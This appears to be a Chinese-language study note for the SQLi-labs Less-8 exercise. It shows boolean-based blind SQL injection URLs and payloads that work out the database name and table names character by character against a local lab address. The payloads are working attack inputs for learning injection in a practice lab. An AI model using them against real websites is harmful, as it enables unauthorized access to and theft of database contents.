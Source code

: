 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605160014024.png" alt="image-20230605160014024" style="zoom:50%;" />

### 注入流程-less-8

#### 爆库

爆破当前数据库名的第一个字母：

```
http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select database()),1,1)) = 115%23

http://192.168.231.129:9001/Less-8/?id=1' and ascii(substring((select database()),第几个数据字母,1)) = 115%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605160159955.png" alt="image-20230605160159955" style="zoom:50%;" />

#### 爆表

爆破当前数据库的第一个数据表的第一个字母

```
1' and ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1)) = 114%23

1' and ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 第几个数据表,1),数据表的第几个字母,1)) = 114%23
```
